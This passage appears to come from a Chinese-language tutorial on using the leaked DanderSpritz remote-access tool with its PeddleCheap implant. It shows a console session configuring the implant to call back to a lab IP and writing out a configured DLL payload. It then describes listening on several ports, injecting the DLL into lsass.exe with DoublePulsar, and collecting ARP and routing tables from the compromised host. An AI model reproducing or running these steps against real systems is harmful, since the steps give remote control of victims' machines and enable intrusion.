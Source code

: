 ```
0
Do you want to LISTEN?
NO
Enter the callback address (127.0.0.1 = no callback) [127.0.0.1]
192.168.38.128
Change CALLBACK PORTS?
NO
Change exe name in version information?
NO
- Pick a key
-   0) Exit
-   1) Create a new key
-   2) Default
Enter the desired option
2
- Configuration:
-
- &lt;?xml version='1.0' encoding='UTF-8' ?&gt;
- &lt;PCConfig&gt;
-   &lt;Flags&gt;
-     &lt;PCHEAP_CONFIG_FLAG_CALLBACK_NOW/&gt;
-     &lt;PCHEAP_CONFIG_FLAG_DONT_CREATE_WINDOW/&gt;
-   &lt;/Flags&gt;
-   &lt;Id&gt;0x0&lt;/Id&gt;
-   &lt;StartListenHour&gt;0&lt;/StartListenHour&gt;
-   &lt;StopListenHour&gt;0&lt;/StopListenHour&gt;
-   &lt;CallbackAddress&gt;192.168.38.139&lt;/CallbackAddress&gt;
- &lt;/PCConfig&gt;
-
Is this configuration valid
YES
Do you want to configure with FC?
NO
- Configured binary at:
-   E:Logsz0.0.0.1z0.0.0.1PayloadsPeddleCheap_2017_04_17_08h49m06s.296/PC_Level3_dll.configured
```

DanderSpritz(RAT)PeddleCheap选项提供三种马儿连接选择

我选择了监听方式,也就是反向连接。

然后开始监听端口，默认监听端口TCP/53，TCP/80，TCP/443，TCP/1509：

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0150dae6f6e2a3bd58.png)

现在我们配合DoublePulsar来使用,让DoublePulsar把DanderSpritz生成的dll注入到lsass.exe进程

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01a3c774495bbe597e.png)

然后DanderSpritz接收到的请求要求接受它。一旦yes接受连接，终端开始滚动了很多有关目标的信息，会自动执行各种命令,有一些命令需要确认,

**ARP表**

**路由表**
